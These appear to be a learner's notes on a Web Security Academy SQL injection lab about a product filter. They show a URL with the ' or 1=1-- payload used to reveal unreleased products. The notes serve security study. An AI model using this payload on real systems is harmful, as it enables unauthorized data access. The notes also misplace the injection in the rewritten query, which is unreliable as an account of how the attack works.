 
We've got the next SQL Query

SELECT * FROM products WHERE category = 'Gifts' AND released = 1


We need to release the application to display one or more unreleased products

Original Link
https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts

Modified Link with the SQL Injection

https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts ' or 1=1-- ' 

So now:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 'or 1=1 --'

The -- comments the rest of the query so it will ignore the rest because it could be something like:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 AND permission= Admin
![[Pasted image 20231205120539.png]]